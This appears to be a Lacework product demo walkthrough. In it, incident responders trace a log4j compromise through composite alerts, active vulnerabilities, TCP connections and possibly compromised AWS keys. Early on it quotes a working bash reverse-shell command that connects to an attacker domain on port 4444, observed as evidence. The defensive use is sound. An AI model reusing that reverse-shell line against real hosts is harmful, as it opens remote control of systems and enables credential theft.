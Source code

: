 > scroll to bottom highlight k8s

Scrolling through the supporting facts, we see that local system enumeration has taken place and we also take note that **access to locally stored cloud credentials was detected**.  

As we continue through the summarized event context, under associated processes we find a call **to setup a reverse shell**, used by **attackers to establish command and control on their target host**: /bin/sh -c /bin/bash -c "TASK=iam2rds /bin/bash -i >& /dev/tcp/log4jc-attacker-904d40a6.attacker-hub.freeddns.org/4444 0>&1 

Next the incident response team takes a deeper dive into the specific vulnerabilities on this host, by opening the host resource details. 

> next tab

In the **vulnerabilities table** below the exposure graph, we can see, **two of the critical vulnerabilities are listed as active**. The ability to determine whether a vulnerability is active on a system, is a unique capability of lacework via our Code Aware Agent.** Knowing a vulnerability's active status** is significant context in** both assessing the risk of threat alerts from this host** and **prioritizing remediation efforts** as part of a larger **vulnerability management program**.

We scroll down to the tcp connections and search for the domain name for the attacker `**log4jc-attacker-904d40a6.attacker-hub.freeddns.org**`

Where we see **connections to ports 4444, 1389 and 8080** matching the **pattern for a log4j exploit**. 

We are also able to** identify the process attackers initially used to gain access to the system** 

`**java spring-boot-application_vuln[log4j]**`, which as we can see here is running as **root**. 

From this one composite alert the incident response team were able to determine that local system enumeration has taken place on this compromised host** including discovery of local cloud credentials**. The incident response team also knows that the initial compromise was from a vulnerable log4j application actively running on the device.

Actions for the incident response team are clear - quarantine the host, take a forensic snapshot and leave the machine in a stopped state until further investigation can be completed.

_Potentially Compromised AWS Keys_

> next tab

Next the incident response team looks at another Lacework Composite alert in the same time window, this **Alert for Potentially Compromised AWS Keys.** 

In the Alert Description **we can see the IAM user khon.traktour@interlacelabs and the Principal ID for the session associated with the compromise indicators**. 

Incident responders can go directly to the **identities dashboard** or **cloud trail logs** from here but before we do that let’s review the supporting facts.

Under Possible Discovery Activity we can see **multiple calls to discovery and enumeration related APIs**.

Under Anomalous Login we can see the **TOR network was used for these connections**, often used by attackers to obfuscate their source location. 

Under entitlement management we can see **the khon.traktour user has been assigned a high severity score based on multiple risky entitlements**. We’ll dig into this a little more in a minute using the Lacework Identities Dashboard.
